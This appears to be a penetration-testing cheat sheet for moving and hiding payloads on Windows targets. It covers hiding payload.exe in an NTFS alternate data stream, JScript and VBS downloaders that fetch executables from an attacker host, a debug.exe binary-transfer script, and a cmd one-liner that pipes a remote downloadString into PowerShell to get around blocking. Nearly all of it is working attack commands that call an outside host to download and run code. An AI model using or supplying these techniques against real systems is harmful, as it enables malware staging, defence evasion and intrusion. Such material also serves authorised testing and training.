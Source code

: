 ## Alternate Data Streams

```powershell
# Store data in alternate stream
Set-Content -Path "C:\Windows\Temp\legit.txt:payload.exe" -Value (Get-Content -Path "C:\Windows\Temp\payload.exe" -Raw)

# Extract data from alternate stream
Get-Content -Path "C:\Windows\Temp\legit.txt:payload.exe" -Raw > "C:\Windows\Temp\payload.exe"
```

## JavaScript/VBScript Download

```js
// Save as download.js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", "http://10.10.10.1:8000/payload.exe", false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("C:\\Windows\\Temp\\payload.exe");

// Execute with: cscript download.js
```

## Debug.exe Binary Transfer (Legacy Systems)

```
# For small files on very old systems
# On attacker machine, create a debug script:
echo n payload.exe > script.txt
echo e 0100 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 >> script.txt
echo e 0110 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 >> script.txt
echo rcx >> script.txt
echo 10000 >> script.txt
echo w >> script.txt
echo q >> script.txt

# On target machine:
debug < script.txt
```

## Windows Command Line Tricks

```cmd
:: Using Powershell from cmd.exe when PowerShell is blocked
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.10.1:8000/script.ps1') | powershell -

:: Simple VBS downloader
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):o.Open"GET","http://10.10.10.1:8000/payload.exe",0:o.Send^(^):If o.Status=200 Then:a.Open:a.Type=1:a.Write o.ResponseBody:a.SaveToFile"payload.exe",2 > dl.vbs
cscript dl.vbs
```
